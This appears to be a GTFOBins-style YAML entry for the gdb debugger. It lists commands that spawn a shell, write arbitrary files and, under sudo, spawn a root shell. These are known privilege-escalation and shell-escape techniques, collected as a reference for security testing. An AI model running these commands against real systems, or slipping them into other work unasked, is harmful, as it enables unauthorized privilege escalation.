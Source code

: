 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be
  executed with the `python` command in the context of the GDB process.

  See the entries of Python [version 2](/gtfobins/python2/) and
  [version 3](/gtfobins/python3/).
functions:
  execute-interactive:
  - code: gdb -nx -ex '!sh' -ex quit
  file-write:
  - code: |
      LFILE=file_to_write
      gdb -nx -ex "dump value $LFILE \"data\"" -ex quit
  sudo-enabled:
  - code: sudo gdb -nx -ex '!sh' -ex quit
---
```

